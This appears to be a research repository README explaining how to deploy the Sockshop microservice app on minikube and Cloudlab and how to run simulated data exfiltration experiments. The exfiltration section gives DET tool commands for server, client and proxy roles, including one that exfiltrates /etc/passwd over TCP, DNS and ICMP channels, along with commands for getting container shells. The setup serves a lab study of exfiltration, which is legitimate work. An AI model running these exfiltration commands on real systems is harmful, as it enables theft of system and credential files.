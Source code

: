 # Instructions for VM (minikube):

Ensure that your VM has at least 10 vCPU's, 16 GB RAM and 80 GB HDD. 

1. Clone the repository and navigate to repository folder. 
2. Run the shell script `minikube_env_setup.sh` to install the pre-requisites for minikube setup.
3. Since the experiment is running on Python 2.7, lets use anaconda to setup a virtual environment.
4. To install anaconda, navigate to `cd /tmp` and get the installation script `curl –O https://repo.anaconda.com/archive/Anaconda3-2020.02-Linux-x86_64.sh`. Run the installation script `bash Anaconda3-2020.02-Linux-x86_64.sh`
5. Let's create a Python 2.7.18 virtual environment using `conda create --name sockshop python=2.7.18` and activate the environment using `conda activate sockshop`
6. To install all the package requirements to run the experiment use `pip install -r req.txt`
7. To start a base minikube container use `minikube start --driver=docker --memory 4096 --cpus 8`
8. Prepare the application by populating the database. Move to the relevant directory via `cd ./experiment_coordinator/` and then running `sudo python -u run_experiment.py --use_k3s_cluster --no_exfil --prepare_app --return_after_prepare_p --config_file ../sockshop_experiment.json --localhostip FRONT-END-CLUSTER-IP --localport 80 | tee sockshop_four_140.log`, where FRONT-END-CLUSTER-IP is the clusterIP of the front-end service, which can be seen by running `kubectl get svc front-end --namespace="sock-shop"` and looking at the CLUSTER-IP column
9. Generate load (warning: this takes a long time and a lot of cpu):
`sudo python -u run_experiment.py --use_k3s_cluster --no_exfil --config_file ../sockshop_experiment.json --localhostip FRONT-END-CLUSTER-IP --localport 80`
10. To clean up `minikube delete --all`

### Manually performing data exfiltration attack using DET [Work in progress]

When `run_experiment.py` executed using `python -u run_experiment.py --no_exfil --prepare_app --config_file ../sockshop_experiment_attack.json --localhostip FRONT-END-CLUSTER-IP --localport 80 | tee sockshop_four_140.log` all the dependencies related to DET is installed to the pods mentioned in the attack path in the config-file.

The next bit hasn't been automated yet since the proxy function was not working properly. 

A `sample_det_config.json` has been added to the repo to understand the functionality of DET. DET fundamentally has got 3 roles based on my understanding of the code:
1. Server - Should be used on the container where the file is to be moved. Sample command `python det.py -L -c ./sample_det_config.json -p tcp`, target in the config file is the server IP for different protocols.
2. Client - Should be used on the container where the file is kept. Sample command `python det.py -c ./sample_det_config.json -f /etc/passwd`, target in the config file is the server IP for different protocols. A client sends the file to both the proxies and servers.
3. Proxies - Can be used for intermediate containers a proxy acts a both the server and client. Sample `python det.py -c ./sample_det_config.json -p dns,icmp -Z`, target in the config file is the server IP for different protocols.

The above role division is quite confusing because the client sends data to both servers and proxies. The proxies send data only to the server not making it a clear network path. This bit of the DET code con be modified to make things simpler.

To actually perform data exfiltration you need to copy the config file to the appropriate pod containers and run it manually. Before understanding the commands it is important to understand the container structures in minikube.

With the command `minikube start --driver=docker --memory 4096 --cpus 8` a container is created using `docker` with the given memory and CPU. The rest of the sockshop containers are created inside this container, to access these containers you can either use `kubectl exec` or do `minkube ssh` to get  shell in the minikube container and then do `docker exec` to the specific container. 

Following are some commands that are useful in performing the attack:
1. To get the details of all the pods use `kubectl get pods -A`. 
2. For a specific pod you would need the container ID later to copy the file using `docker cp` or to get the shell using `docker exec`. To get the container ID use `kubectl describe pods -n <namespace here sock-shop> <POD name>`. The actual container ID is the value after `docker://`.
3. `minikube ssh` to get a shell in the minikube container.
4. To get a shell to a specific container `docker exec -u <user-id> -it <container-id> /bin/sh`.
5. To copy a file to a specific user `kubectl cp <file name> <namespace>/<pod name>:<destination path> -c <conatiner name> --user <username>`

Using the above information following can be done to preform the exfiltration attacks:
1. Copy the config file to the respective container according to the attack path.
2. Run DET in the correct mode to perform data exfiltration.

----
# Instructions for Cloudlab

Step-by-step instructions to easily deploy kubespray cluster on Cloudlab. 

There is also support for deploying the Sockshop microservice application onto the cluster and simulating user activity.


NOTE: SSH connections to Cloudlab time out all the time. If the terminal looks frozen, just start a new one, navigate to the correct directory, and keep following the steps. Usually the command kept running in the background. I recommend running the commands from a shell from the experiment's cloudlab status page.

----
1. Create new experiment on Cloudlab using the “small-lan” profile (3 hosts) and Wisconsin cluster (if Wisconsin cluster is full, feel free to use other clusters)
    * Should boot up quickly (within a few minutes)
    * SSH into node1 or node2 (not node0)
2. Clone this repo and move into the corresponding directory
    1. Run: `git clone https://github.com/fretbuzz/KubesprayClusterOnCloudlab.git`
    2. Run: `cd KubesprayClusterOnCloudlab`
3. Run: `bash setup_kubespray_prereqs.sh`
4. Manually setup passwordless-SSH:
    1. `cd ~/.ssh/`
    2. Store your cloudlab private key in tempkey.pem. Do this by first creating a new file called tempkey.pem (if it doesn't already exist). Then, get your cloudlab private key by going to https://www.cloudlab.us/, pressing “Download Credentials”, and copy-pasting the whole file up to and including the “END RSA PRIVATE KEY” line into tempkey.pem. 
    3. Put your Cloudlab public key in tempkey.pub (can get from https://www.cloudlab.us/ssh-keys.php)
5. Move back to the relevant directory: `cd ~/KubesprayClusterOnCloudlab`
6. Run: `bash deploy_kubespray.sh`. Add the flag `-c` if you want to deploy cilium (and hubble) instead of Istio.
    * At some point you will be asked for the phasephrase for `.ssh/tempkey.pem`. This is the password to your Cloudlab profile. If the password was correct, it will output “Identity added:...". If any y/N prompts shows up, respond: `y`.
   NOTE: IF this scripts runs sucessful, you should see a ton of ansible output and no errors.
7. Setup InfluxDB integration with Prometheus (this is one way to get the time series data) -- this has not been implemented yet (and you might choose not to implement it)
8. \[If you want to deploy sockshop\] Run: `bash deploy_sockshop.sh`. The script waits a bunch of times (to give Kubernetes cluster components time to instantiate), so don't be concerned if that happens.
9. Prepare the application by populating the database. Move to the relevant directory via `cd ./experiment_coordinator/` and then running `sudo python -u run_experiment.py --use_k3s_cluster --no_exfil --prepare_app --return_after_prepare_p --config_file ../sockshop_experiment.json --localhostip FRONT-END-CLUSTER-IP --localport 80 | tee sockshop_four_140.log`, where FRONT-END-CLUSTER-IP is the clusterIP of the front-end service, which can be seen by running `kubectl get svc front-end --namespace="sock-shop"` and looking at the CLUSTER-IP column
10. Generate load (warning: this takes a long time and a lot of cpu):
`sudo python -u run_experiment.py --use_k3s_cluster --no_exfil --config_file ../sockshop_experiment.json --localhostip FRONT-END-CLUSTER-IP --localport 80`

NOTE: Need to add autoscaling support to the kubespray cluster

NOTE: To collect cadvisor metrics, use this command 
`python3 influx_csv_dumper.py -db cadvisor -tl 15m`, where -tl is the Length of time for the dump. This requires that you installed influxdb via `sudo pip3 install influxdb`.

NOTE: For additional notes on setting up Hubble/Cilium, see [this guide](cilium-readme.md).
